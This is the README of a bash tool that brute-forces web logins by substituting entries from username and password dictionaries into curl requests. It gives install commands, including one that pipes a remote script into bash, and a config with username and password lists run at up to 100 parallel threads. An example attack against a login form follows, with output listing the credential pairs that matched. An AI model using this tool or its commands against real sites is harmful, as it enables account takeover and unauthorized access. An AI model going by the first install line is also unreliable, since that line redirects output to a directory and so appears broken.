 # curl-request-dictionary-attack

Bash script to perform dictionary attacks on any request via simple template-like substitutions in complete curl manner.


## INSTALLATION

```
curl -s https://raw.githubusercontent.com/psyb0t/curl-request-dictionary-attack/master/curl-request-dictionary-attack > /usr/local/bin && chmod +x /usr/local/bin/curl-request-dictionary-attack
```

or

```
echo 'alias curl-request-dictionary-attack="curl -s https://raw.githubusercontent.com/psyb0t/curl-request-dictionary-attack/master/curl-request-dictionary-attack | bash -s --"' >> ~/.bashrc && source ~/.bashrc
```

## USAGE

```
% cp config.sh.sample config.sh && cat config.sh
max_threads=100
dict_fields=(
  "user_input" "./usernames.txt"
  "password_input" "./passwords.txt"
)
expect_grep_expr=("-i" "welcome")
```

`max_threads` - the maximum number of curl processes to spawn at a time

`dict_fields` - the template strings used in the command and which files to be used to read data to be put in place of those strings

`expect_grep_expr` - the grep command expression to expect when something interesting happens (in the example above the expression results in `grep -i "welcome"`)


```
./curl-request-dictionary-attack -skL -H "Referer: http://example.com/" --data "user={user_input}&password={password_input}&im_not_a_robot=1" "https://example.com/login"
```

whenever the `expect_grep_expr` does not return an empty string(based on the curl response) the entire curl command gets printed out

```
curl -skL -H Referer: http://example.com/ --data user=admin&password=admin-password&im_not_a_robot=1 https://example.com/login
curl -skL -H Referer: http://example.com/ --data user=basic-user&password=12345&im_not_a_robot=1 https://example.com/login
```
